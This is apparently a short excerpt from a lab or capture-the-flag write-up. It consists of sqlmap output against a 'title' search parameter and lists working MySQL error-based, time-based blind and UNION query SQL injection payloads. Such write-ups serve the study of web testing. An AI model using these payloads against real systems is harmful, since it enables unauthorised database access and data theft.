 ![sqlmap](.gitbook/assets/image-20230504192432292.png)

```bash
---
Parameter: title (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: title=hacking' AND (SELECT 1819 FROM(SELECT COUNT(*),CONCAT(0x716a767171,(SELECT (ELT(1819=1819,1))),0x7171707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'bLrY'='bLrY&action=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=hacking' AND (SELECT 1664 FROM (SELECT(SLEEP(5)))MSwT) AND 'jFDG'='jFDG&action=search

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: title=hacking' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716a767171,0x7379784e74504d4e76744b6e4c524b4e516a4f4f7878676a51734e6d4c744d547450424844474f76,0x7171707071),NULL,NULL-- -&action=search
---
```
